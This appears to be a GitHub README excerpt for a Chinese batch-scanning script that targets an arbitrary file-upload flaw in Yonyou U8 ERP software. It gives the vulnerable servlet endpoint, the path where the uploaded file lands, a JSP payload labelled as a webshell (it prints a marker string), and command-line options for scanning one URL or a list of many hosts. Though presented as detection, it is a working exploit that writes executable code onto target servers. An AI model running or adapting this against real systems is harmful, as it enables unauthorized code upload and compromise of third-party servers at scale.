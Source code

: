 # -U8-
用友U8文件上传批量检测脚本
![image](https://github.com/user-attachments/assets/250f39fa-3d28-46ef-8018-218383b028f2)
vulnurl = url + "/servlet/FileUpload?fileName=1.jsp&actionID=update"  #漏洞页面信息
okurl = url + "/R9iPortal/upload/1.jsp" # 上传文件的地址
data = """<% out.println("24k");%>"""  # Webshell
parser.add_argument('-u','--url', type=str, help='单个漏洞网址')
parser.add_argument('-f','--file', type=str, help='批量检测文本')
